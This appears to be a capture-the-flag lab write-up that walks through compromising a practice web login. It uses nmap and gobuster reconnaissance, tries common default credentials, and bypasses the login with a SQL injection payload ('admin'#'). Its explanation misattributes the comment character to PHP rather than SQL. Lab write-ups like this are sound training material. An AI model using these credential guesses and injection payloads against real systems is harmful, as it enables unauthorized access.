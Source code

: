 1. Scan all the ports and default scripts and determine service and version of open ports
```bash
nmap -sV -sC [ip machine]
```
--> port 80/tcp - open - http
--> http-server-header: Apache/2.4.38 (Debian) / http-title: Login


2. Search the IP of the machine on our browser
--> We can see a basic Login Page, but we don't have the user and the password yet.


3. Check out the web directories with Gobuster
```shell
gobuster dir -u http://[ip machine]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
--> We have not found helpful information


4. Try with deafault credentials
```shell
admin - admin
root - root
user - user
guest - guest
administrator - password
```
--> There wasn't the correct credentials

5. Test the log in form for a possible SQL Injection vulnerability
```php
# We can notice that in PHP language, "#" is used to make a comment, so we can conclude that if we use a "#" in the username, the website will read it like a comment, so it won't read the password.

--> Username: admin'#
	Password: [random]
```
--> **MACHINE PWNED!** Now, we are into the website and we can Capture the Flag.
